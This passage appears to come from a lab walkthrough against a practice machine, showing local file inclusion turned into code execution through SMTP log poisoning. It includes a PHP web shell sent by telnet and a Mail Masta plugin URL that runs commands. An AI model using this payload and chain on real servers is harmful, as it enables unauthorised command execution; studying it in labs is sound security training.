



3.2 LFI to RCE via SMTP log Poising
a) Connect to SMTP service via “telnet”.
$telnet
192.168.12.75 25
Output:

b) Try to send a mail via the command line (CLI) .
MAIL FROM
:
<raj>
RCPT TO
:
Helios
DATA
<?php system
(
$_GET
[
'c'
]
);
?>
.
QUIT
Output:

c) See the results of injecting PHP code into the logs.
Go to
http:symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=id
.

This technique is known as
SMTP log poisoning
and through such type of vulnerability, we can easily take the reverse shell of the victim’s machine.
Index